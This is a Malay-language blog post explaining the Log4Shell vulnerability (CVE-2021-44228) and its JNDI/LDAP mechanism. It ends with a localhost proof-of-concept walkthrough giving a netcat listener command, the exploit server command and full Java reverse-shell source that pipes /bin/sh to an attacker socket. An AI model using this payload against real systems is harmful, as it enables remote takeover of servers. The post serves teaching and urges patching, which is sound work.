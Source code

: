 ```yaml
---
title: "Log4shell (Log4j RCE)"
layout: post
published: true
---
```


![log4shell](/assets/pictures/log4shell.gif)

Assalamualaikum wrt! Baru-baru ini dunia cybersec dikejutkan dengan penemuan vulnerability baharu dalam log4j library. Ia dikenali sebagai Log4Shell 0-day yang menyebabkan berjuta komputer dalam pelbagai organisasi terjejas. Fenomena 0-day tersebut sudah diterbitkan dalam pangkalan data kelemahan kebangsaan dan dinamakan sebagai CVE-2021-44228. Sementara itu, Log4Shell ini membolehkan hacker untuk melakukan Remote Code Execution (RCE) terhadap sesuatu server. Dengan erti kata lain, hacker dapat memasukkan kod jahat dalam sesuatu server untuk mengawal server tersebut dengan jarak jauh.

## Apa itu Log4j?
Log4j merupakan utiliti yang merekod events sistem operasi seperti ralat, cronjobs dll dan menyampaikan mesej diagnostik kepada pentadbir sistem (sysadmin) dan pengguna biasa. Log4j ini berasaskan programming language JAVA dan dibangunkan oleh Apache Software Foundation dan banyak digunakan organisasi gah seperti Apple, Microsoft dll untuk melakukan operasi logging dalam sistem aplikasi, laman sesawang dan sebagainya. Dalam erti kata lain, ia dipanggil sebagai software library (National Cyber Security Center, 2021). Secara teknikalnya, log4j melakukan logging terhadap sesuatu perkara yang berlaku dalam web server. Sebagai contoh, sekiranya terdapat client cuba mengakses direktori yang tidak wujud dalam sesebuah website dan mendapat HTTP status kod 404, log4j akan memberitahu kejadian tersebut kepada sysadmin. Bahkan, log4j juga boleh melaksanakan arahan untuk menjana maklumat mengenai logging. Fungsi itu membolehkan log4j berkomunikasi atau berinteraksi dengan sumber lain, seperti servis direktori dalaman.

## Log4Shell 0-day
Log4Shell muncul selepas penyelidik keselamatan Chen Zhaojun dari Alibaba, syarikat e-dagang terbesar di China, melaporkan kelemahan kepada Apache Foundation pada 24 November. Mereka menemui serangan pada 9 Disember dalam server Minecraft. Mereka melakukan analisis forensik dan mendapati penjenayah siber menemui vulnerability itu lebih awal, dan telah mengeksploitasinya sejak 1 Disember 2021 (Dynatrace, 2021). Dalam pada itu, The Apache Foundation memberikan skor CVSS 10/10 terhadap vulnerability ini berikutan ia berpotensi untuk dieksploitasi secara meluas dan memudahkan hackers yang berniat jahat untuk menyerang aplikasi. Log4Shell menjejaskan beberapa syarikat besar di dunia termasuk Apple, Twitter, Steam, Tesla, dan permainan video Minecraft.

## Bagaimana Log4Shell terjadi ?
Secara khususnya, log4shell menyasarkan bahagian log4j yang spesifik iaitu Java Naming and Directory Interface atau akronimnya JNDI. Fungsi spesifik ini berfungsi untuk menghuraikan log data yang dikawal oleh pengguna. JNDI juga melakukan rutin yang mencatat data client termasuk HTTP request dan IP Address yang melayari laman sesawangnya. Log4Shell membolehkan hackers menyalahgunakan operasi JNDI ini untuk mencapai Remote Code Execution (RCE) dalam sesebuah aplikasi. Secara teknikal, hackers menggunakan crafted strings yang menggunakan JNDI lookups untuk memaksa web aplikasi yang vulnerable untuk menyambung ke LDAP server yang dikawal penyerang dan melaksanakan kod jahat.

![diagramlog4shell](/assets/pictures/diagramlog4shell.png)
Gambar rajah Log4Shell (Sumber: Swiss Government Computer Emergency Response Team GovCERT)

Berdasarkan gambar rajah tersebut:

1. Hacker mencetuskan eksploitasi dengan menghantar malicious payload melalui input pengguna iaitu HTTP header user-agent. Walau bagaimanapun, ia bukan terhad kepada user-agent header sahaja kerana Log4j akan mencatat HTTP request yang mempunyai pelbagai headers seperti cookies, accept-language, accept-encoding dan lain-lain.
2. Aplikasi laman sesawang merekodkan input yang dibekalkan oleh penyerang.
3. Log4j library mentafsir malicious payload dan bersambung ke server LDAP penyerang.
4. LDAP server penyerang menghantar semula respons yang mengarahkan aplikasi laman sesawang untuk memuatkan fail JAVA yang di host oleh penyerang secara jarak jauh (remote).
5. Aplikasi laman sesawang memuat turun dan melaksanakan fail tersebut.
6. Penyerang mendapat sambungan dari mangsa melalui reverse shell

---

## Proof of Concept/Demonstration
Proof of concept ini adalah berdasarkan repositori Kozmer, iaitu Pengkaji yang mencipta aplikasi laman sesawang yang vulnerable untuk menunjukkan contoh senario Log4Shell. Segala POC yang dipaparkan hanya dibuat dalam localhost sahaja.

[Sumber](https://github.com/kozmer/log4j-shell-poc/)

#### STEP 1
Pasang aplikasi laman sesawang ini dengan menggunakan docker. Anda boleh mengakses aplikasi laman sesawang ini di localhost:8080

```bash
sudo docker build -t log4j-shell-poc .
```
![step1](/assets/pictures/1.png)

```bash
sudo docker run --network host log4j-shell-poc
```
![step2](/assets/pictures/2.png)

#### STEP 2
Pasang sambungan netcat dengan port bersesuaian untuk menerima sambungan reverse shell daripada mangsa.

```bash
nc -nlvp 1337
```

#### STEP 3
Pasang LDAP server berserta HTTP server untuk menerima sambungan daripada mangsa dan menghantar respon yang akan memuat turun reverse shell. LDAP server dijalankan pada port 1389 manakala HTTP pula pada port 8000.

```bash
sudo python3 poc.py --userip localhost --webport 8000 --lport 1337
```
![step3](/assets/pictures/3.png)

#### STEP 4
Copy malicious payload (send me) tersebut , paste di ruang login aplikasi yang telah di pasang sebentar tadi dan klik login untuk mencetuskan eksploitasi.

![step4](/assets/pictures/4.png)

#### STEP 5
LDAP server menghantar semula respons yang mengarahkan aplikasi laman sesawang ini untuk memuatkan fail Exploit.class yang di host oleh penyerang pada port 8000.

![step5](/assets/pictures/5.png)

Berikut merupakan source code Java.class yang belum di compile. Kod jahat ini bertujuan untuk menyambungkan shell dari aplikasi mangsa ke port penyerang (1337)

```java
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;
public class Exploit {
public Exploit() throws Exception {
String host="localhost";
int port=1337;
String cmd="/bin/sh";
Process p=new
ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),
pe=p.getErrorStream(),
si=s.getInputStream();
OutputStream
po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()) {
while(pi.available()>0)
so.write(pi.read());
while(pe.available()>0)
so.write(pe.read());
while(si.available()>0)
po.write(si.read());
so.flush();
po.flush();
Thread.sleep(50);
try {
p.exitValue();
break;
}
catch (Exception e){
}
};
p.destroy();
s.close();
}
}
```
---
#### REVERSE SHELL BERSAMBUNG!

![6](/assets/pictures/6.png)

Vulnerability Log4shell memberi impak yang tinggi terhadap aplikasi, malahan ia mudah dieksploitasi oleh hackers. Implikasi zero day ini memberikan kesan yang meluas ke atas industri perkomputeran dalam dunia sehingga menjejaskan syarikat terkemuka dunia seperti Apple dan Microsoft. Namun begitu, vulnerability ini kelihatan sudah dihapuskan apabila Apache Foundation menerbitkan Apache Log4j library versi kedua dan ketiga. Menurut Apache Foundation, mereka telah membuang sokongan protokol LDAP sepenuhnya dalam versi 2.3.1, 2.12.2, 2.12.3 atau 2.17.0. Oleh hal yang demikian, para pentadbir sistem diharapkan dapat menaik taraf Log4j berserta mekanisme keselamatan untuk mengelakkan aplikasi anda terjejas dengan serangan 0-day kelak.

---
#### Rujukan
[Berger, A. (2021, December 31). What is Log4Shell? The Log4j vulnerability explained (and what to do about it). Dynatrace News.](https://www.dynatrace.com/news/blog/what-is-log4-shell/)​

[Log4j vulnerability - what everyone needs to know. (n.d.). NCSC.](https://www.ncsc.gov.uk/information/log4j-vulnerability-what-everyone-needs-to-know/)

[Software Library - an overview ScienceDirect Topics. (n.d.). Sciencedirect](https://www.sciencedirect.com/topics/computer-science/software-library/)

[Torres-Arias, S. (2021, December 22). What is Log4j? A cybersecurity expert explains the latest internet vulnerability, how bad it is and what’s at stake. The Conversation.](https://theconversation.com/what-is-log4j-a-cybersecurity-expert-explains-the-latest-internet-vulnerability-how-bad-it-is-and-whats-at-stake-173896)

[Zero-Day Exploit Targeting Popular Java Library Log4j. (n.d.). GovCert.](https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/)